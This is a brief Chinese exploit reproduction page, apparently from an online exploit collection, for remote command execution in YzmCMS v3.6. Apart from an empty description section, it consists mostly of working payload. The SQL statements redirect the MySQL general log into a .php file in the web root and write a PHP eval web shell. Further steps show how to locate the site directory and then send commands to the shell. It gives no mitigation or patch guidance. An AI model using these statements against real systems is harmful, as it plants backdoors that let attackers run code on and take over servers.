 # YzmCMS v3.6 远程命令执行

> 原文：[http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 远程命令执行.html](http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 远程命令执行.html)

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启 general log 模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入 shell 
```

##### 1、执行 sql 语句，查看 mysql 日志配置情况

![image](img/db9c5a4e69621ebfec0b3e8075658bf2.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用 load_file()函数来测试，确认站点目录位置。或者通过 phpinfo()等信息收集获取站点目录。

![image](img/d7762860f4489885338e28fadcc207e4.png)

#### 3、分别执行下列 sql 语句，将脚本代码写入文件：

```
set global general_log = on;         

set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>'; 
```

![image](img/0b49cc3454119dc1441a32a4fb774a6f.png)

#### 4、提交参数，执行脚本代码：

![image](img/d52cb9590bfdeb28c5acd1598f465041.png)

